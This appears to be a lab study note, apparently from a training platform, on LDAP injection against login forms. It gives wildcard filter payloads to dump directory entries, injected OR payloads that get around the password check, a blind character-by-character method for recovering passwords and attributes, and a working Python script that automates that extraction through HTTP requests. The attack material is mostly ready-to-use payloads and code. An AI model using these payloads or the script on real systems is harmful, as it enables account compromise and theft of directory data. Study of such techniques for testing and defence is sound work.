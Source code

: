 # LDAP - Data Exfiltration & Blind Exploitation

When LDAP results are rendered, wildcarding attributes can dump broad data. When nothing is rendered, use blind techniques (response-difference) similar to blind SQLi.

## Visible Results (Straightforward Exfiltration)

Given a filter like:

```ldap
(&(uid=admin)(objectClass=account))
```

Inject wildcard to match all users:

```ldap
(&(uid=*)(objectClass=account))
```

Or widen an OR branch:

```ldap
(|(objectClass=organization)(objectClass=*)))
```

## Blind Exploitation (Response-Based)

Assume login filter:

```ldap
(&(uid=htb-stdnt)(password=p@ssw0rd))
```

- Identify positive vs negative responses (e.g., "Login successful ... down for security reasons" vs "Login failed!").
- Confirm injection: `password=*` → positive response.

### Password brute-force (prefix search)

Test first char using wildcard suffix:

```ldap
(&(uid=htb-stdnt)(password=a*))
```

Loop over candidate chars until positive; fix the char and proceed to next position:

```ldap
(&(uid=htb-stdnt)(password=p@*))
```

Repeat until the response stops flipping (full value found).

### Attribute exfiltration via injected OR

Leak attribute of a user by short-circuiting around the password check. Example payloads:

- Username: `htb-stdnt)(|(description=*`
- Password: `invalid)`

Effective filter:

```ldap
(&(uid=htb-stdnt)(|(description=*)(password=invalid)))
```

Now brute-force `description` one character at a time with `prefix*` tests (same approach as password).

## Automation Script (example)

```python
import requests, string

URL = "http://STMIP:STMPO/index.php"
POSITIVE_STRING = "Login successful"
EXFILTRATE_USER = 'admin'
EXFILTRATE_ATTRIBUTE = 'description'

if __name__ == '__main__':
	flag = ''
	while True:
		found_char = False
		for c in string.printable:
			username = f"{EXFILTRATE_USER})(|({EXFILTRATE_ATTRIBUTE}={flag}{c}*"
			password = 'invalid)'
			r = requests.post(URL, data={'username': username, 'password': password})
			if POSITIVE_STRING in r.text:
				flag += c
				found_char = True
				break
		if not found_char:
			print(flag)
			break
```

- Adjust `POSITIVE_STRING` to match the app's positive response phrase exactly.
- Narrow `string.printable` to speed up.
- URL-encode when needed if the app rejects raw parenthesis.

> Redact flags/secrets in notes; store sensitive outputs separately.
